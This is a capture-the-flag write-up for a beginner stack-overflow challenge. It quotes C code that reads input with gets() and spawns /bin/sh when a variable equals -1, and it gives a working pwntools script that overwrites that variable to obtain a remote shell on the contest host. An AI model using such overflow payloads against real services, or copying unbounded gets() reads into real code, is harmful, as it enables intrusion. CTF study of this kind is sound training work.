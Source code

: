 # beginner-generic-pwn-number-0

rob keeps making me write beginner PWN! I'll show him...

```
nc mc.ax 31199
```

[beginner-generic-pwn-number-0.c](http://ctf.infury.org:8000/files/671bb230792e8117cbaefa425bcdadc9/beginner-generic-pwn-number-0.c?token=eyJ1c2VyX2lkIjoxNCwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6NTJ9.YPxKrQ.NvnGQ3Z4QlPwWRU8Bkd2bA1LEn4)

[beginner-generic-pwn-number-0](http://ctf.infury.org:8000/files/c8572e6f2aedbcfe587622b4204bb099/beginner-generic-pwn-number-0?token=eyJ1c2VyX2lkIjoxNCwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6NTN9.YPxKrQ.-kLC2FijmZ05_xnWuNvrlCzOcAg)

## WP

Open the source code we can find the logic of the program: gets a user input into the input buffer and then compare the variable `inspirational_message_index` with `-1`. If `inspirational_message_index` equals `-1` then we will access the bash of the host.

```c
srand(time(0));
long inspirational_message_index =
    rand() % (sizeof(inspirational_messages) / sizeof(char *));
char heartfelt_message[32];

// ...

gets(heartfelt_message);

if (inspirational_message_index == -1) {
  system("/bin/sh");
}
```

So what we need to do is overflow the input buffer to change the value of `inspirational_message_index` from its original value to `0xffffffffffffffff` (this is because its a `long` type variable and computer represents negative numbers by using complement).

![image-20210725012323220](beginner-generic-pwn-number-0.assets/image-20210725012323220.png)

Disassembly the program and we find that the `char` array actually takes up `0x28` (`0x38 - 0x10`) bytes, so we need `40` characters to fill the buffer first. Then we will send `8` `0xff` bytes to let the value of `var_10` ( `inspirational_message_index` in source code) be `-1`.

```python
from pwn import *

conn = remote('mc.ax', 31199)
payload = b'a' * 40 + b'\xff\xff\xff\xff\xff\xff\xff\xff'
conn.sendline(payload)
conn.interactive()
```

Then we can get the access of bash successfully.

Use command `ls` to find the flag file, then use command `cat` to get its content.

![image-20210725012941031](beginner-generic-pwn-number-0.assets/image-20210725012941031.png)

